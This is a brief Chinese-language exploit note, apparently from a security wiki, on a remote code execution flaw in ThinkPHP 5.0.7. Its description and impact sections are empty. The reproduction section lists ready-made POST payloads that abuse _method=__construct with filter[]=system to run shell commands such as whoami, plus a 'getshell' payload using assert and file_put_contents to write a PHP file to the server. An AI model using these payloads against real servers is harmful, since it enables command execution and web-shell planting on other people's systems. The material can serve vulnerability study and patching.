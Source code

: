 Thinkphp 5.0.7
==============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> www.0-sec.org/?s=index/index

    POST

    s=whoami&_method=__construct&method=POST&filter[]=system

    aaaa=whoami&_method=__construct&method=GET&filter[]=system

    _method=__construct&method=GET&filter[]=system&get[]=whoami

> getshell

    POST

    s=file_put_contents('zerosec.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert

